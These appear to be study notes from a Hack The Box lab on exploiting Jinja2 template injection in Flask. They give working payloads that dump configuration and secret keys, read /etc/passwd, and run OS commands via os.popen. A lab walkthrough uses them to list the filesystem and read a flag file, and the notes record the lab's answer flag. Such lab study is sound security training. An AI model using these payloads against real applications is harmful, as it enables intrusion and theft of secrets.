 ﻿---
sticker: lucide//book-template
---
Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the`Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as`Flask` or`Django`. This section will focus on a`Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the`import` statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in function`open` to include a local file. However, we cannot call the function directly; we need to call it from the`__builtins__` dictionary we dumped earlier. This results in the following payload to include the file`/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the`os` library, such as`system` or`popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function`import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![Pasted image 20250212131624.png](../../../../IMAGES/Pasted%20image%2020250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

![Pasted image 20250212131817.png](../../../../IMAGES/Pasted%20image%2020250212131817.png)

![Pasted image 20250212131825.png](../../../../IMAGES/Pasted%20image%2020250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![Pasted image 20250212131952.png](../../../../IMAGES/Pasted%20image%2020250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![Pasted image 20250212132022.png](../../../../IMAGES/Pasted%20image%2020250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![Pasted image 20250212132107.png](../../../../IMAGES/Pasted%20image%2020250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![Pasted image 20250212132138.png](../../../../IMAGES/Pasted%20image%2020250212132138.png)

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

